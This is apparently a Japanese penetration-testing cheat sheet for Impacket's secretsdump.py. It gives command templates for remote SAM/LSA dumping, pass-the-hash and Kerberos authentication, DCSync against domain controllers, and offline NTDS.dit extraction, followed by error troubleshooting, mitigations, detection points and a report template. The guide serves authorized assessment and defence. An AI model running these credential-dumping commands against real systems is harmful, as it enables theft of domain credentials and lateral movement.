

## TL;DR

`secretsdump.py` は、許可されたWindows/Active Directory診断で資格情報関連の証跡を収集するための Impacket ツールです。ラボまたは明示的に許可された診断でのみ使用してください。安全寄りの進め方は、**必要最小限の証跡だけを取得** し、可能なら単一ユーザーまたは単一ホストに絞り、結果を具体的な改善策に落とすことです。

| 目的 | コマンド |
|---|---|
| リモートSAM/LSA dump | `secretsdump.py <DOMAIN>/<USER>:'<PASS>'@<TARGET>` |
| Pass-the-Hash認証 | `secretsdump.py -hashes :<NTLM> <DOMAIN>/<USER>@<TARGET>` |
| Kerberos認証 | `secretsdump.py -k -no-pass <DOMAIN>/<USER>@<TARGET>` |
| DCSyncでドメインハッシュ確認 | `secretsdump.py -dc-ip <DC_IP> <DOMAIN>/<USER>:'<PASS>'@<DC_HOST> -just-dc` |
| 単一ユーザーだけDCSync | `secretsdump.py -dc-ip <DC_IP> <DOMAIN>/<USER>:'<PASS>'@<DC_HOST> -just-dc-user <TARGET_USER>` |
| オフラインSAM/LSA | `secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL` |
| オフラインNTDS.dit | `secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile ntds_dump` |
| ファイル保存 | `secretsdump.py ... -outputfile evidence/secretsdump_<target>` |

---

## secretsdump.pyでできること

| 取得元 | 取得できるもの | 典型的に必要な権限 |
|---|---|---|
| リモートWindowsホスト | ローカルSAMハッシュ、LSA Secrets | 対象ホストのローカル管理者 |
| DCに対するDCSync | ドメインアカウントのハッシュやKerberosキー | 複製権限または同等権限 |
| オフラインレジストリハイブ | SAM、SYSTEM、SECURITYの秘密情報 | ハイブファイルへのアクセス |
| オフラインNTDS.dit | ドメインDB内のハッシュやキー | `ntds.dit` と SYSTEM ハイブへのアクセス |

`secretsdump.py` は権限を魔法のように回避するツールではありません。ローカル管理者、バックアップファイルアクセス、Kerberosチケット、NTLMハッシュ、ディレクトリ複製権限など、既に持っているアクセスを使います。

---

## 判断フロー



---

## リモートSAMとLSA Secrets

単一ホストのローカル管理者権限があり、ローカル資格情報露出の証跡が必要なときに使います。

```bash
secretsdump.py <DOMAIN>/<USER>:'<PASS>'@<TARGET>
```

NTLMハッシュを使う場合:

```bash
secretsdump.py -hashes :<NTLM> <DOMAIN>/<USER>@<TARGET>
```

出力を保存する場合:

```bash
secretsdump.py <DOMAIN>/<USER>:'<PASS>'@<TARGET> -outputfile evidence/secretsdump_<TARGET>
```

報告観点:

| 出力 | リスク |
|---|---|
| ローカルAdministratorハッシュ | ローカル管理者使い回し、Pass-the-Hash |
| Cached domain logons | 端末上のドメイン資格情報残留 |
| サービスアカウント秘密情報 | 横展開やサービス乗っ取り |
| DPAPI関連情報 | 保護されたユーザー/アプリデータへの影響 |

---

## DCSync

DCSync は、別のドメインコントローラであるかのようにDCへ秘密情報の複製を要求します。影響が大きいため、スコープを絞って実行します。

```bash
secretsdump.py -dc-ip <DC_IP> <DOMAIN>/<USER>:'<PASS>'@<DC_HOST> -just-dc
```

可能なら単一ユーザーの証跡に絞ります。

```bash
secretsdump.py -dc-ip <DC_IP> <DOMAIN>/<USER>:'<PASS>'@<DC_HOST> -just-dc-user <TARGET_USER>
```

Pass-the-Hash:

```bash
secretsdump.py -dc-ip <DC_IP> -hashes :<NTLM> <DOMAIN>/<USER>@<DC_HOST> -just-dc-user <TARGET_USER>
```

Kerberos:

```bash
KRB5CCNAME=admin.ccache secretsdump.py -k -no-pass -dc-ip <DC_IP> <DOMAIN>/<USER>@<DC_HOST> -just-dc-user <TARGET_USER>
```

DCSyncには一般に `DS-Replication-Get-Changes` と `DS-Replication-Get-Changes-All` のような複製権限が必要です。特権グループや危険なACLから継承されていることがあります。

---

## オフラインSAM/SECURITY/SYSTEMハイブ

許可されたラボやフォレンジックイメージからレジストリハイブを取得している場合、ライブホストへ再接続せずオフラインで解析します。

```bash
secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
```

必要なファイル:

| ファイル | 目的 |
|---|---|
| `SAM` | ローカルアカウントハッシュ |
| `SYSTEM` | 秘密情報復号に必要なBoot Key |
| `SECURITY` | LSA Secrets と Cached Credentials |

---

## オフラインNTDS.dit

DCイメージや許可されたオフライン収集では、対応する `SYSTEM` ハイブと `ntds.dit` を使って解析します。

```bash
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile ntds_dump
```

生ファイルと出力は高機密の証跡です。暗号化保存、アクセス制御、エンゲージメントルールに沿った削除または保管を徹底します。

---

## 認証方式

| 方式 | 例 |
|---|---|
| パスワード | `secretsdump.py <DOMAIN>/<USER>:'<PASS>'@<TARGET>` |
| NTLMハッシュ | `secretsdump.py -hashes :<NTLM> <DOMAIN>/<USER>@<TARGET>` |
| LM:NTLMペア | `secretsdump.py -hashes <LM>:<NTLM> <DOMAIN>/<USER>@<TARGET>` |
| Kerberos ccache | `KRB5CCNAME=ticket.ccache secretsdump.py -k -no-pass <DOMAIN>/<USER>@<TARGET>` |
| ローカル認証 | `secretsdump.py ./<LOCAL_USER>:'<PASS>'@<TARGET>` |

---

## よくあるエラー

| エラー/症状 | 主な原因 | 次の確認 |
|---|---|---|
| `STATUS_ACCESS_DENIED` | ローカル管理者でない、または複製権限不足 | グループ所属とACL経路を確認 |
| `rpc_s_access_denied` | Remote Registryやサービスアクセスが制限 | ローカル管理者権限とFWを確認 |
| `KDC_ERR_PREAUTH_FAILED` | パスワード、ハッシュ、チケット文脈の誤り | ドメイン、ユーザー、ccacheを確認 |
| DCSync結果が空 | 複製権限不足またはDC指定誤り | `-just-dc-user` とACLを確認 |
| 名前解決失敗 | DNSまたは `/etc/hosts` の問題 | `-dc-ip` と解決可能なホスト名を使う |

---

## 防御側の観点

| リスク | 対策 |
|---|---|
| ローカルSAM dump | ローカル管理者の拡散を減らし、LAPS/Windows LAPSを使う |
| LSA Secrets露出 | サービスアカウント使い回しを減らし、露出資格情報をローテーション |
| DCSync悪用 | 複製権限を監査し、不要な `DS-Replication-*` 権限を削除 |
| Pass-the-Hash | NTLM制限、Tiering、ローカル管理者パスワード使い回し防止 |
| DC秘密情報アクセス | DCバックアップ保護、管理アクセス制限、`ntds.dit` 保護 |

検知観点としては、Directory Service Replication イベント、非DCホストからの複製、リモートサービス作成、Remote Registryアクセス、高権限アカウントの不自然な利用元を確認します。

---

## 報告テンプレート

| 項目 | 例 |
|---|---|
| 使用されたアクセス | `CORP\svc_backup` に複製権限があった |
| コマンド種別 | `-just-dc-user` で単一ユーザーを対象にDCSync |
| 証跡 | マスク済みNTLMハッシュまたはKerberosキーの証跡 |
| 影響 | ドメイン資格情報抽出が可能 |
| 根本原因 | 過剰なACL、グループ所属、ローカル管理者権限 |
| 修正 | 権限削除、資格情報ローテーション、複製監視、Tiering見直し |

---

## 関連記事

- [Active Directory 攻撃ロードマップ](/ja/topics/active-directory/)
- [Active Directory列挙チェックリスト](/ja/posts/tech-active-directory-enumeration-checklist/)
- [NetExecコマンドチートシート](/ja/posts/tech-netexec-beginner-guide/)
- [Mimikatzコマンドチートシート](/ja/posts/tech-mimikatz-guide/)
- [ラテラルムーブメントまとめ](/ja/posts/tech-lateral-movement-guide/)
- [BloodHound Attack Pathチートシート](/ja/posts/tech-bloodhound-attack-paths/)
- [Kerberos OSCP 攻撃テクニック](/ja/posts/tech-kerberos-oscp-guide/)

## References

- [Impacket GitHub](https://github.com/fortra/impacket)
- [MITRE ATT&CK: OS Credential Dumping](https://attack.mitre.org/techniques/T1003/)
- [MITRE ATT&CK: DCSync](https://attack.mitre.org/techniques/T1003/006/)
- [Microsoft: Windows LAPS](https://learn.microsoft.com/windows-server/identity/laps/laps-overview)
